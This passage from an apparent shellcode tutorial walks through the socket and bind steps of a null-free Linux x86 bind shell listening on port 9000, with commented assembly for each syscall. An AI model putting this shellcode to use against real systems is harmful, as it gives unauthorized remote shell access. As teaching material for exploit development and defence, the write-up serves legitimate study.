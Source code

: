##### Socket

###### Creates an endpoint for communication

Our next step is to initialize the socket. In order to concrete such action, it is required to move the value of the socket (359) syscall into eax. I have chosen to push the 
value as a word into the ax register, in order to avoid null characters. Furthermore, according to the syscall man page for socket, the required flags involve domain (EBX), type 
(ECX) and protocol (EDX). A common combination when it comes to remote shells is AF_INET, SOCK_STREAM. According to [this file](https://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html), the value of AF_INET is 2 and SOCK_STREAM 1, therefore, this will be reflected on the EBX and ECX 
registers. Finally, the value of protocol (EDX) isn't actually very relevant. Due to this, EDX is simply pushed.

```term
socket:

       push word 359          ; Pushes word 359 (socket) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov bl, 2              ; Moves value 2 into bl, giving the value AF_INET.
       mov cl, 1              ; Moves value 1 into bl, giving the value SOCK_STREAM.
       push edx               ; There isn't anything really needed within this parameter, so 0 is pushed from EDX.
       int 0x80               ; Call to kernel.
       mov esi, eax           ; Saves the value of eax for sockfd values later on.
```

As you can see, the value of EAX has been copied to ESI, this will be very useful as storage of the file descriptor value from socket for later operations.

##### Bind

###### Binds a name to a socket

The next step is to concrete the Bind function. The process is quite similar to socket, the value of the syscall in ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h``` is 361.
According to the manpage, the arguments are ```int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);```. As aforementioned, ESI will be used to satisfy the 
sockfd argument. Furthermore, in order to satisfy the struct, it is required to push the following values:

+ 0            (As it is required to push 0, the instruction PUSH EDX will be used.)
+ IP Address   (As this is a bind shell, it is required to listen in all interfaces. Therefore, this will be set to 0 through pushing EDX.)
+ Chosen Port  (The chosen port will be pushed in hex as a word.)
+ AF_INET

Finally, it is regarding to point out in EDX the length of such struct, which is 16.

```term
bind:

       push word 361          ; Pushes word 361 (bind) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the socket syscall.
       push edx               ; As the following parameter is a const struct sockaddr, and this is a bind shell, the first values aren't actually required, therefore, zeroes are 
                              ; pushed through EDX.
       push edx               ; The same as stated above.
       push word 0x2823       ; Pushes the word 9000 into the stack.
       push word 0x02         ; Pushes AF_INET into the stack.
       mov ecx, esp           ; Copies the value of ESP into ECX.
       mov dl, 16             ; The value 16 is inserted into DL, as this argument requires the length of the struct.
       int 0x80               ; Call to kernel.
```
